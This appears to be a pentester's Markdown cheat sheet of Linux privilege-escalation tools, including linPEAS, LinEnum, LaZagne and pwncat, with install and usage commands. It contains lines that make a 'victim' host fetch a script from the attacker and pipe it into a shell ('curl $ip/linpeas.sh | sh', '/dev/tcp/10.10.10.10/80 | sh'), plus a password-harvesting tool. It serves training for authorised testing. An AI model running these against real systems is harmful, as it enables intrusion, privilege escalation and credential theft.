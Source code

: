 # `Linux Priv Esc Bible` | http://pentestmonkey.net/tools/audit/unix-privesc-check

[Linux PrivEsc Content](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)

[Pentest Monkey - Unix PrivEsc Check](http://pentestmonkey.net/tools/audit/unix-privesc-check)

***
## If wget doesn't work :

```bash
cat > les.sh
This file was created using cat (^._.^)
# Hit Ctrl+D to exit!
```
***

# Linux Exploit Suggester | https://github.com/mzet-/linux-exploit-suggester
```bash
# install
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

# usage
./les.sh
```

# Linux Smart Enumeration | https://github.com/diego-treitos/linux-smart-enumeration

```bash
# install
wget "https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh" -O lse.sh
curl "https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh" -o lse.sh

# usage
# shows interesting information that should help you to privesc
./lse.sh -l1 
# dump all the information it gathers about the system
./lse.sh -l2 
```

# Linpeas | https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

```bash
# install
wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" -O linpeas.sh

# COMMANDS
# Local network
# On the Host
sudo python -m SimpleHTTPServer 80 

# On the Victim
curl $ip/linpeas.sh | sh 

# Without curl
# On the Host
sudo nc -q 5 -lvnp 80 < linpeas.sh 

# On the Victim
cat < /dev/tcp/10.10.10.10/80 | sh 

# USAGE
#all checks - deeper system enumeration, but it takes longer to complete.
./linpeas.sh -a 
# superfast & stealth - This will bypass some time consuming checks. In stealth mode Nothing will be written to the disk.
./linpeas.sh -s
 #Password - Pass a password that will be used with sudo -l and bruteforcing other users
./linpeas.sh -P
```

# Linux Priv Checker | https://github.com/sleventyeleven/linuxprivchecker
```bash
# INSTALL
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

# python 2.6/2.7
python linuxprivchecker.py -w -o linuxprivchecker.log

# python 3.x
pip install linuxprivchecker

# USAGE
linuxprivchecker -w -o linuxprivchecker.log
# or 
python3 -m linuxprivchecker -w -o linuxprivchecker.log
```

# LinEnum | https://github.com/rebootuser/LinEnum
```bash
# install
git clone https://github.com/rebootuser/LinEnum.git

# usage
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```
# LaZagne | https://github.com/AlessandroZ/LaZagne
>Retrieve lots of passwords stored on a local computer.

```bash
# install
git clone https://github.com/AlessandroZ/LaZagne.git
cd LaZagne
pip install -r requirements.txt
cd Linux/

# usage
python laZagne.py
```

# Unix PrivEsc Check | https://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz

```bash
chmod +x unix-privesc-check
./unix-privesc-check > checks.txt
```

# Pwncat-cs | https://github.com/calebstewart/pwncat
## Usage
```bash
# enumeration
run enumerate # to enumerate the whole server
run enumerate.file.caps # to enumerate linux capabilities
run enumerate.file.suid # to enumerate suid files
```

![image](https://github.com/buger-shack/scriptkiddie/assets/61053314/c28b3cf6-66ed-46e2-bb64-7c8455e35e82)
